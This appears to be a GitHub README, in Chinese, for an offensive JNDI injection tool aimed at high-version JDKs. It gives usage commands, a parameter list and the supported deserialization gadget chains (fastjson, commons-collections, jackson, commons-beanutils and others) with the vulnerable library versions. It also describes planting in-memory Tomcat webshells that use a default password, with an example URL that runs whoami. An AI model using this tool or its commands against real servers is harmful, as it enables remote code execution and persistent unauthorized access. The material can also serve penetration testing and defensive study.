 ## LDAPDeserialize-tool
一款针对高版本JDK的JNDI注入工具

### 依赖环境
JDK8

### 功能描述
#### 使用简述
```shell
反序列化文件方式：java -jar LDAPDeserialize-tool.jar -p 1389 -f D:/1.ser
反序列化base64方式：java -jar LDAPDeserialize-tool.jar -p 1389 -b base64数据
低版本动态请求class：
java -jar LDAPDeserialize-tool.jar -C http://127.0.0.1:8000/1.class
内置反序列化链：
java -jar LDAPDeserialize-tool.jar -p 1389 -g fastjson -c "calc"
RMI反序列化打法：
java -jar LDAPDeserialize-tool.jar -p 1389 -g fastjson -c "calc" -rmi
RMI内置利用链遍历：
java -jar LDAPDeserialize-tool.jar -g execAll -c "calc" -rmi -ip 当前服务器公网ip
内存马注入：
java -jar LDAPDeserialize-tool.jar -p 1389 -g fastjson -c TomcatListenerBehinderByLei
```
#### 参数说明
```shell
 -b,--base64 <arg>   反序列化打法：序列化数据base64编码值
 -C,--class <arg>    低版本动态请求class实例化方式：class文件请求URL（需自己生成class文件，开启web服务）
 -c,--cmd <arg>      使用内置反序列化链时所要执行的命令，或指定所要打的内存马类型（存在空格时请使用双引号包裹）
 -f,--file <arg>     反序列化打法：序列化数据文件路径
 -g,--gadget <arg>   内置反序列化链
 -ip,--ip <arg>      VPS-IP地址
 -p,--port <arg>     监听的端口，默认1389
 -rmi,--rmi          rmi反序列化打法，可打JDK20+，只支持内置链打法
```
#### 支持说明
```
【目前支持的链,*号为支持JDK20+的链】
fastjson (依赖：1.2.49-1.2.83)

* CC6 (依赖：<= commons-collections 3.2.1)
CC4 (依赖：commons-collections4 4.0)
jackson (依赖：jackson-databind 2.10.0及以上版本)
jackson2 (稳定版，依赖：jackson-databind 2.10.0及以上版本 && <= spring aop 5.x)
groovy (依赖：groovy 2.3.9)
hibernate (依赖：hibernate 5.x && spring-context &&
                           reactor-core)[hibernate为ClassPathXmlApplication
                           Context执行，'-c'后跟上xml文件WEB地址]
CB192 (依赖：commons-beanutils 1.9.2 && commons-logging 1.2)
CB183 (依赖：commons-beanutils 1.8.3 && commons-logging 1.2)
rome (依赖：Rome 1.0)
execAll (利用链遍历，跑完一次要重新开脚本，依赖：tomcat)

【目前支持的内存马类型】
目前所有内存马默认密码均为：aaa
TomcatListenerBehinderByLei (tomcat listener冰蝎马，打入改版的马子，需用改版的冰蝎ByLei)
TomcatListenerCMD （tomcat listener cmd马，http://ip:port/xx/zz?pass=aaa&cmd=whoami）
```

### 使用演示
#### 使用指定反序列化文件

使用ysoserial.jar生成序列化文件1.ser，读取该文件启动，客户端访问后将执行反序列化操作

![截图](image/cc370864ddff7bce2c17cdf15b6b2df3.png)

#### 使用指定反序列化数据

使用base64编码后的序列化数据启动

![截图](image/10b93a10ec217bb82424756bc05c413b.png)

#### 使用内置反序列化链

![截图](image/99b85665c9c03cedeb281f5729c6d945.png)

#### 使用RMI反序列化方式

当前RMI反序列化方式仅支持内置的反序列化链

![截图](image/e49210b2672c44f1ba10bd784bbefc56.png)

#### 内存马注入
##### CMD马

![截图](image/Snipaste_2024-08-06_17-10-12.png)

![截图](image/Snipaste_2024-08-06_17-14-38.png)


##### 冰蝎马

![截图](image/image-20240806154150477.png)

![截图](image/Snipaste_2024-08-06_15-43-51.png)

![截图](image/Snipaste_2024-08-06_15-45-48.png)

### TODO
- 增加内存马类型及兼容性

